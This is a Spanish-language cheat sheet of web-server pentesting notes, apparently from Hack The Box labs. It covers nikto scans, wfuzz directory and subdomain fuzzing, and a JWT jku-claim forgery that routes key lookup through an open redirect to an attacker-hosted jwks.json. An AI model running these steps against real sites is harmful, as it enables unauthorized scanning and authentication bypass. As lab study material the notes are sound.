 # Buscar vulnerabilities en Servidores Web.

1. Usar nikto para buscar vulns 
    -`nikto -h example.com`
1. Buscar directorios y subdominios con un web fuzzer.
    - `wfuzz -c -w directorios.txt http://www.sitio.com/FUZZ/` **importante la / del final para que busque directorios y no archivos.**
    - `wfuzz -c -w subnominios.txt http://www.sitio.com -H "Host: FUZZ.sitio.com"


- Web Fuzzer (*remplazo de palabras en el url*)
    - `wfuzz -c -z range,1-10 http://www.sitio.com/FUZZ` la palabra **FUZZ** seria remplazada por numeros del 1 al 10.
    - `wfuzz -c -z file,palabras.txt http://www.sitio.com/FUZZ` palabra **FUZZ** seria remplazada por las palabras dentro del archivo.
    - con la opcion `--sc` fitramoslos resultados, p.e. `--sc 200` solo muestra los resultados con *200 OK.f* 
    - `-c` muestra la salida con colores
    - `-w palabras.txt` lo mismo q usar file,palabras.txt
    - `-L` seguir redirecciones.
    - `-H` header p.e. `-H "Host: FUZZ.sitio.htb"

- Checar **JWT** en las cookies.
    - normalmente inician con `eyJ0eXAiOi` o com `ey` que es el `{` de json   
    - jwt que contengan `jku` por ejemplo `"jku": "http://hackmedia.htb/static/jwks.json"` 
        - https://blog.pentesteracademy.com/hacking-jwt-tokens-jku-claim-misuse-2e732109ac1c -- si `getPublicParams.py` da error *No module named 'Crypto'* usar `pip install Crypto` si falla usa `pip install pycryptodome==3.14.1`
        - si esta limitado al directorio del servidor, osea solo a `http://hackmedia.htb/static/` se usa: `"jku": "http://hackmedia.htb/static/../redirect?url=10.10.14.83:8888/jwks.json"`
        - al parecer el metodo esta **incorrecto**, usar https://mkjwk.org/ con parametros: `2048,Signature,RS256,SHA-256,Yes` para generar los archivos, ya no es necesario el uso de `getPublicParams.py`, usar los valores de `"n"` que entrega la pagina para actualizar el archivo jwks.json y el public key y private key para generar el token en la pagina `https://jwt.io/`
        
        - [metodo q si funciona, esta en chino](https://zhuanlan.zhihu.com/p/446176672) 

        - usar extension de chrome `Cookie-Editor` para modificar la cookie una vez q funciono en el repeater del burp.

- Crear un servidor con python3 en el directorio actual
    - `python3 -m http.server 9000`
    - `python3 -m http.server --bind 10.10.14l83 9000`, asi se hace bind solo en una ip.
